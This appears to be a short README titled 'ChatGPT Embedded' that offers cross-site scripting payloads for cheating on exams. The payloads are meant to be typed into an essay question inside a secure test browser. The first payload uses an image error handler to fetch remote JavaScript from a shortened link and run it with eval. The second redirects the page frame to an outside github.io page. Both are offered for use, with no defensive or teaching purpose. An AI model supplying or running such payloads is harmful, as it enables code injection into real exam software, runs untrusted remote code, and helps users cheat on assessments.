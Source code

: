 # ChatGPT Embedded
This can be used for xss in secure test browser just type this into essay question (good luck memorizing it)
```
<img src=# onerror='fetch("https://tinyurl.com/payloadcheat").then(r => r.text()).then(eval);'>
```


Or Shorter but havent test it yet
```
<img src=x onerror=frameElement.src='https://joaawd.github.io/p/'>  
```
